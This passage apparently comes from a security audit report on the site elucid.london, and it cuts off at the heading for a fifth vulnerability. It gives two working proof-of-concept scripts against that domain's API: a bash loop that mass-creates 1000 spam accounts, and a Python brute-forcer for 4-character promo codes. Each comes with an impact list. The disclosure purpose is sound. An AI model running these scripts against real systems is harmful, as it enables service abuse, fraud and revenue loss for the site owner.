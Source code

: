 #### Proof of Concept - Signup Spam

```bash
# Create 1000 fake accounts
for i in {1..1000}; do
  curl -X POST https://elucid.london/api/auth/signup \
    -H "Content-Type: application/json" \
    -d "{
      \"email\": \"spam${i}@temp-mail.com\",
      \"password\": \"password123\",
      \"name\": \"Spam User ${i}\"
    }" &
done
```

**Impact:**
- Database bloated with fake users
- Email service quota exhausted
- Verification emails sent to spam
- Cost: Email API charges spike

#### Proof of Concept - Promo Code Brute Force

```python
import requests
import string
import itertools

# Brute force 4-character promo codes
chars = string.ascii_uppercase + string.digits
for code in itertools.product(chars, repeat=4):
    promo_code = ''.join(code)

    response = requests.post("https://elucid.london/api/promocodes/validate", json={
        "code": promo_code,
        "subtotal": 100
    })

    if response.status_code == 200:
        data = response.json()
        if data.get('valid'):
            print(f"Valid promo code found: {promo_code}")
            print(f"Discount: {data.get('discount')}")
```

**Impact:**
- Promo codes discovered without authorization
- Free discounts applied to orders
- Revenue loss

---

### 🟠 VULNERABILITY #5: Weak File Randomness Allows Enumeration
